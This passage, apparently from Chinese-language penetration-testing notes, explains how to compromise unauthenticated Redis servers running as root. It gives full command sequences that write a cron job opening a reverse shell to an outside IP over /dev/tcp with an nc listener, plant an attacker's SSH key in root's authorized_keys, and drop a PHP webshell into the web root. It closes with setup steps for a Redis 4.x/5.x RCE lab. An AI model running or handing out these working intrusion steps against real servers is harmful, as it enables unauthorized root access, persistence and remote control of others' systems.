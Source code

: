     **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 7999` 然后执行命令:
    ```bash
    > set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.72.129/7999 0<&1 2>&1\n"
    > config set dir /var/spool/cron/
    > config set dbfilename root
    > save
    ```

    **写 ssh-keygen 公钥然后使用私钥登陆**

    在以下条件下，可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

    首先在本地生成一对密钥 `ssh-keygen -t rsa` 然后执行命令:
    ```bash
    将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh

    **往 web 物理路径写 webshell**

    当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell
    执行以下命令
    ```bash
    > config set dir /var/www/html/
    > config set dbfilename shell.php
    > set x "<?php phpinfo();?>"
    > save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

**Redis 4.x 5.x RCE**
- 搭建环境
    ```bash
    yum install tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```
